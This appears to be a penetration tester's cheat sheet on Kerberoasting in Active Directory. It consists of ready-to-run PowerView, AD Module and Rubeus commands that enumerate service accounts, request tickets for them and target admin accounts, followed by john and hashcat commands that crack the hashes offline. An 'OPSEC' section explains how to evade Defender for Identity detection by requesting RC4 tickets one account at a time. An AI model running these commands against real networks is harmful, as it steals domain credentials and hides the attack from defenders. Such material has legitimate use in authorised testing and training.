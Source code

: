 Kerberoasting flys under the radar due to the actions being completely legitimate, we just keep the ticket for the password hash and bruteforce it offline.


Discover kerberoastable users (PowerView & AD Module)
```powershell
Get-DomainUser -SPN

Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```

Check with Rubeus
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args kerberoast /stats
```

> [!NOTE] Nore
>  If we see any SPN accounts with their passwords set 5 or more years ago, they could be promising targets as they could have a weak password 
### OPSEC Kerberoast
To avoid detections based on Encryption Downgrade for Kerberos EType (used by likes of MDI - 0x17 stands for rc4-hmac), look for Kerberoastable accounts that only support RC4_HMAC

**DO ONE ACCOUNT AT A TIME TO HAVE THE TICKET REQUESTS LOOK LEGITIMATE**
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args kerberoast /stats /rc4opsec
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args kerberoast /user:svcadmin /simple /rc4opsec /outfile:svcadmin.hash

C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args kerberoast /rc4opsec /outfile:hashes.txt
```

### Standard Kerberoast
Target a single user - **Adding `/tgtdeleg` will give us a RC4 ticket increasing cracking speeds (Doesn't work on Windows server 2019 and up)** 
```powershell
C:\Users\Public\Loader.exe -path  C:\Users\Public\Rubeus.exe -args kerberoast /tgtdeleg /user:sapservice /nowrap
```

Target admin accounts
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args kerberoast /tgtdeleg /ldapfilter:'admincount=1' /nowrap
```

--- 

Check encryption type (`0`= `RC4` | `24`= `AES 128/256`) - **PowerView**
```powershell
Get-DomainUser sapservice -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes
```

---
Crack
```bash
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt

hashcat -m 13100 rc4_to_crack /usr/share/wordlists/rockyou.txt
```

![[Pasted image 20250513191525.png]]